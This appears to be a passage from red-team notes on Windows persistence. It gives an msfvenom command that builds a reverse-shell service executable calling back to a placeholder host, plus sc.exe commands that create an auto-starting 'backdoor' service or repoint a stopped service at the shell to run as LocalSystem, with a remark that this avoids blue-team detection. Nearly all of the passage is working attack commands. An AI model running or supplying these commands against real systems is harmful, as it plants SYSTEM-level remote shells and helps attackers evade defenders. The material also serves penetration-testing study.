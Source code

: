 [sc](reg.md#sc)
### Creating New Services
```powershell
# Create a reverse shell using msfvenom, with exe-service, as service executables are different from normal executables
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe-service -o rev-svc.exe

# Crate a service
sc.exe create backdoor binpath= "C:\path\to\reverse\shell.exe" start= auto
sc.exe start backdoor
```
### Modifying Existing Services
- Usefull when blue team is monitoring new services
- Look for `Stopped` services.
```powershell
sc.exe query state=all
```
- check configuration
```powershell
sc.exe query Stopped_Service
sc.exe config Stopped_Service binpath= "C:\Reverse\Shell.exe" start= auto obj= "LocalSystem"
# Setting obj to LocalSystem runs the service with SYSTEM Privilege
```